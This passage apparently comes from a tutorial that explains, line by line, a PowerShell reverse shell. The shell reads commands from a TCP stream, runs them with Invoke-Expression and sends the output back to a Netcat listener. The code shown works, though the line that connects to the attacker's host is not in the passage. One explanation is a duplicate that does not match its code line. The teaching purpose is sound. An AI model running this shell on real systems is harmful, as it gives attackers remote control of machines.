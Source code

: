 ```powershell
$stream = $client.GetStream();

# Sets/evaluates the variable $stream equal to (=) the $client variable and the .NET framework method called GetStream that facilitates network communications. The semi-colon (;) ensures the commands & code are executed sequentially.

# Empty Byte Stream
[byte[]]$bytes = 0..65535|%{0}; 
# Creates a byte type array ([]) called $bytes that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.

# Stream Parameters
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)

# Starts a while loop containing the $i variable set equal to (=) the .NET framework Stream.Read ($stream.Read) method. The parameters: buffer ($bytes), offset (0), and count ($bytes.Length) are defined inside the parentheses of the method.

# Set The Byte Encoding
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
```
Sets/evaluates the variable `$data` equal to (=) an ASCII encoding .NET framework class that will be used in conjunction with the `GetString` method to encode the byte stream ($bytes) into ASCII. In short, what we type won't just be transmitted and received as empty bits but will be encoded as ASCII text. The semi-colon (;) ensures the commands & code are executed sequentially.
```powershell
# Invoke-Expression
$sendback = (iex $data 2>&1 | Out-String ); 
```
Sets/evaluates the variable $sendback equal to (=) the Invoke-Expression (iex) cmdlet against the $data variable, then redirects the standard error (2>) & standard output (1) through a pipe (|) to the Out-String cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. The semi-colon (;) ensures the commands & code are executed sequentially.

```powershell
# Show Working Directory
$sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 

```
Sets/evaluates the variable $sendback equal to (=) the Invoke-Expression (iex) cmdlet against the $data variable, then redirects the standard error (2>) & standard output (1) through a pipe (|) to the Out-String cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. The semi-colon (;) ensures the commands & code are executed sequentially.

```powershell
# Sets Sendbyte
$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
# Sets/evaluates the variable $sendbyte equal to (=) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.

#Terminate TCP Connection
$client.Close()"
```
